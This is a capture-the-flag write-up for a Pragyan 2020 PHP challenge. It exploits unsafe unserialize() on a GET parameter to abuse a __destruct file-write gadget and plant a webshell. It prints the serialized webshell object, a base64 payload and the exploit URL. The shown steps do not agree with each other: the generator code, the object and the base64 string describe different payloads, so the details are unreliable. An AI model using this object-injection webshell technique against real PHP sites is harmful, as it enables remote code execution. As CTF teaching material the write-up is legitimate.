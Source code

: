 

#### Solved?

Yes

#### Tried:

After reading the source code we came to the conclusion that the vulnerable piece of the puzzle was *unserialize*.

```
function setFooter(){
  if(isset($_GET['newFooter'])){
    $newFooter=unserialize(base64_decode($_GET["newFooter"]));
    echo '<div class="footer">'.$newFooter.'</div>';
  }
  else{
    echo '<div class="footer">Pragyan 2020!</div>';
  }
}
```

As per my understanding after reading few blogs about PHP unserialization vulnerabilites I found out that magic methods such as __construct
and __destruct are called automatically without call the function itself.

So, we needed an object to exploit it (Just like as in ROP we need gadgets) and we noticed that in *pageContent* class our magic methods were defined.

```
class pageContent{
  private $file_name;
  private $newContent;

  function __construct() 
  { 
    $this->file_name="txt/content.txt"; 
    $file = file_get_contents($this->file_name);
    $this->newContent=$file;
  } 

  function setContent($newContent){
    $this->newContent=$newContent;
  }

  function __destruct() 
  { 
    $fd=fopen($this->file_name,"w");
    fwrite($fd,$this->newContent);
    fclose($fd);
  } 
}
```

As our input is already in the unserialized method we won't need to use __construct and will use __destruct instead. But for understanding 
purpose all __construct does is reading file content at `txt/content.txt`.

So it narrowed down our possible soultion to __destruction method which just writes our data to any file we specify without sanitizing user
input ofcourse.

We needed to create our exploit as such it will call *pageContent* class with our argument i.e filename and it's content.

Following is the snippet we used to create serialized object for the class and it's argument, kai.php as the filename and php webshell as the 
content.

```
<?php

class pageContent{
  public $file_name = 'txt/kai.php';
  public $newContent = "<?php system('ls -la')?>";

}

$obj = new pageContent;

echo htmlspecialchars(serialize($obj));

?>
```

#### Object: 

```O:11:"pageContent":2:{s:9:"file_name";s:11:"txt/kai.php";s:10:"newContent";s:29:"<?php system($_GET['kai']);?>";}```

#### Base64: 

```TzoxMToicGFnZUNvbnRlbnQiOjI6e3M6OToiZmlsZV9uYW1lIjtzOjEyOiJ0eHQvYW1hbi50eHQiO3M6MTA6Im5ld0NvbnRlbnQiO3M6NToidGVzdDEiO30=```

#### Webshell:

In order to call unserialize function we had to pass ```newFooter``` GET parameter and our payload as it's value.

```http://ctf.pragyan.org:9000/?newfooter=TzoxMToicGFnZUNvbnRlbnQiOjI6e3M6OToiZmlsZV9uYW1lIjtzOjEyOiJ0eHQvYW1hbi50eHQiO3M6MTA6Im5ld0NvbnRlbnQiO3M6NToidGVzdDEiO30=```

And we got our shell at ```http://ctf.pragyan.org:9000/txt/kai.php```

**Team UnderDawgs**
